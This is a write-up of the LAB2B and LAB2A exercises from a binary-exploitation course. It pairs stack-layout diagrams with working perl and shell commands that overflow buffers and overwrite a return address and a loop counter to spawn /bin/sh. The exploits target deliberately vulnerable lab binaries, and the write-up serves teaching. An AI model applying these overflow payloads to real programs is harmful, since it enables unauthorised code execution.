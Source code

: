 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab02 write-up"
author: A1phaZer0
layout: post
category: HackING
---
```


> **LAB2B:**

```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|               |
|               |
|_______________|(pointer to '/bin/sh')
|__p_to_string__|
|_____ret_______|
|___ebp_main____|<- ebp_print_name
|               |
|               |
|_______________|
|__p_to_string__|
|_____dest______|(ebp_print_name-0x17)
```
<!--more-->

Now, it's clear, we just need 0x17 bytes to override until `ebp_print_name`, then 4 bytes to override `ebp_print_name`, then 4 bytes to override `ret`, we can redirect `ret` to function `shell`.  
After returning from `print_name`, `esp` will point to `p_to_string`, since function `shell` use `ebp-0x8` as argument, so we need put pointer to '/bin/sh' into somewhere 4 bytes after `p_to_string`.
```bash
$ ./lab2B $( perl -e 'print "A"x27 . "\xbd\x86\x04\x08" . "\xd0\x87\x04\x08"x2' )
```

> **LAB2A:**

```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp_c
|               |
|               |
|_______________|<- ebp_c - 0x14
|_ebp_c_-_0x14__|<- ebp_c - 0x18
|_______i_______|
|               |
|               |
|               |
|_______________|<- ebp_c - 0x28
|_______________|
|_______________|
|_____0x10______|<- 'size' argument in fgets(), means 15 chars at most.
|_ebp_c_-_0x28__|
```
`i` is a counter, starts from `0x0` to `0x9`, everytime fgets() reads a string to `ebp_c - 0x28`, `i` increases by 1, then one character is taken to `ebp_c - 0x14`.  
Since there are 12 bytes between `ebp_c - 0x28` and i, but fgets() can at most read 15 characters, so we can override i, by that `ret` will also be modified.
```bash
$ for i in $( seq 1 24 ); do perl -e 'print "a" x 12 . "\x0a"'; done > /tmp/abc
$ perl -e 'print "\xfd" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x86" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x04" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x08" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "a" x 11 . "\x0a"' >> /tmp/abc
$ for i in $( seq 1 10 ); do perl -e 'print "a" x 10 . "\x0a"'; done >> /tmp/abc
$ { cat /tmp/abc; echo "whoami"; } | ./lab2A
```
**NOTICE:**
+ `\x0a` also is `\n`.  
+ In both cases, we expect to run `system('/bin/sh')`, but there're tiny differences between LAB2B and LAB2A.  
  In LAB2B you will finally get an interactive shell, because new shell will inherit standard input as it's input.  
  In LAB2A new shell is connected to a pipe(buffer), when left command-list finished there will be an `EOF` and pipe will be closed so does the new shell. So we need to override `i` back to 0(NULL, fgets() can do it), to make sure fgets() read enough data and finish properly, in the end `whoami` will not be swallowed but redirected to the new shell.
